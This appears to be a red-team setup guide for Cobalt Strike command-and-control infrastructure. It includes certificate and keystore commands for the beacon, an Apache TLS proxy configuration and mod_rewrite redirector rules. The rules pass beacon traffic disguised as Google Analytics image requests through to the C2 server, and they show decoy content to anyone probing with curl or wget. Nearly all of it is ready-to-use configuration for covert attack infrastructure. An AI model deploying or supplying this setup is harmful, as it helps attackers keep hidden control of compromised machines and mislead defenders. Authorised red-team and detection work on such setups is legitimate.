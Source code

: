 verify certificate by visiting `https://[redirector]`
##### Beacon
on attacker (client),
`openssl req -x509 -nodes -newkey rsa:2048 -keyout localhost.key -out localhost.crt -sha256 -days 365 -subj '/CN=localhost'`
`openssl pkcs12 -inkey localhost.key -in localhost.crt -export -out localhost.pfx`
`keytool -importkeystore -srckeystore localhost.pfx -srcstoretype pkcs12 -destkeystore localhost.store`
`rm localhost.pfx`
`scp localhost.store attacker@[attacker]:/home/attacker/cobaltstrike/`

verify certificate with `curl -v -k https://[attacker]`
#### Apache Configuration
**Note:** The example below assumes the following. Change this as necessary to match use case.
- TLS cert public key is in /etc/ssl/certs/public.crt
- TLS cert private key is in /etc/ssl/private/private.key

`sudo nano /etc/apache2/sites-enabled/default-ssl.conf`
```
SSLCertificateFile /etc/ssl/certs/public.crt
SSLCertificateKeyFile /etc/ssl/private/private.key

SSLProxyEngine on
...
<Directory /var/www/html/>
	Options Indexes FollowSymLinks MultiViews
	AllowOverride All
	Require all granted
</Directory>
```
`sudo systemctl restart apache2`
#### Apache Rules
**Note:** The example below assumes the following. Change this as necessary to match use case.
- using the Cobalt Strike webbug profile
- data is sent via a cookie instead of in URL
- if a file exists on the redirector (in /var/www/html) it should always be returned
- **a**, **b**, **c**, and **d** are files hosted on Cobalt Strike that should be accessible
- /var/www/html/diversion is a file on the redirector that displays fake content for **a**, **b**, **c**, and **d** if they are requested using wget or curl
https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html

on redirector,
`sudo nano /var/www/html/.htaccess`
```
RewriteEngine on

# check beacon GET
RewriteCond %{REQUEST_METHOD} GET [NC]
RewriteCond %{HTTP_COOKIE} SESSIONID
RewriteCond %{REQUEST_URI} __utm.gif
RewriteCond %{QUERY_STRING} utmac=UA-2202604-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US
RewriteRule ^.*$ https://localhost:8443%{REQUEST_URI} [P,L]

# check beacon POST
RewriteCond %{REQUEST_METHOD} POST [NC]
RewriteCond %{REQUEST_URI} ___utm.gif
RewriteCond %{QUERY_STRING} utmac=UA-220(.*)-2&utmcn=1&utmcs=ISO-8859-1&utmsr=1280x1024&utmsc=32-bit&utmul=en-US
RewriteRule ^.*$ https://localhost:8443%{REQUEST_URI} [P,L]

# if a,b,c,d and using wget or curl, change file to diversion
RewriteCond %{HTTP_USER_AGENT} curl|wget [NC]
RewriteRule ^a|b|c|d$ diversion [PT]
```